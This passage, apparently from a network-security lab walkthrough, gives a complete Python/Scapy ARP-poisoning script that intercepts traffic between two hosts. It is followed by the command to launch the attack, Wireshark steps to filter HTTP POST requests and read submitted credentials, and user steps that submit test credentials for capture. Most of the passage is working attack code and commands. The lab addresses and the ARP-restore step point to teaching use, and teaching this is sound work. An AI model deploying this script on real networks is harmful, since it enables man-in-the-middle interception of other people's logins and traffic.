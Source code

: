 ```bash
```
```python
# arp_poisoner.py
from scapy.all import ARP, Ether, sendp
import time, sys, os

def send_arp(target_ip, spoof_ip, target_mac, restore_mac=None):
    # If restoring, use the real MAC of the spoofed IP. Otherwise, use our own MAC.
    # Note: Scapy will use your interface's MAC automatically if hwsrc is not set.
    pkt = Ether(dst=target_mac)/ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip, hwsrc=restore_mac)
    sendp(pkt, count=4 if restore_mac else 1, verbose=0, iface="eth0")

if __name__ == '__main__':
    if len(sys.argv) != 5 or os.geteuid() != 0:
        sys.exit("Usage: sudo python3 arp_poisoner.py <target1_ip> <target2_ip> <target1_mac> <target2_mac>")

    _, target1_ip, target2_ip, target1_mac, target2_mac = sys.argv
    print(f"[+] Poisoning {target1_ip} <-> {target2_ip}. Press CTRL+C to stop.")
    try:
        while True:
            send_arp(target1_ip, target2_ip, target1_mac) # Poison Target 1
            send_arp(target2_ip, target1_ip, target2_mac) # Poison Target 2
            time.sleep(2)
    except KeyboardInterrupt:
        print("\n[!] Restoring ARP tables...")
        # To restore, send ARP replies with the CORRECT MAC addresses
        send_arp(target1_ip, target2_ip, target1_mac, restore_mac=target2_mac)
        send_arp(target2_ip, target1_ip, target2_mac, restore_mac=target1_mac)
        print("[+] Done.")
```
```bash
# Step 3: Execute the attack (replace with real MACs from 'arp -a')
# **IMPORTANT** Ensure this is all on one line
sudo python3 arp_poisoner.py 192.168.10.10 192.168.10.12 AA:BB:CC:11:22:33 DD:EE:FF:44:55:66

# --- Results and Analysis ---
# While the attack is running, capture traffic in a new terminal
# Install and run Wireshark
sudo apt-get update && sudo apt-get install -y wireshark
sudo wireshark -i eth0
# Set display filter in Wireshark: http.request.method == "POST"
# Right-click the packet and select Follow > TCP Stream
```

---

#### **User: Generate Traffic**

1.  While the Attacker's poisoning script is running, open a web browser.
2.  Navigate to `http://192.168.10.12`.
3.  Submit credentials (e.g., `testuser` / `MyPassword123`).
4.  The credentials should be visible on the Attacker's Wireshark capture.

---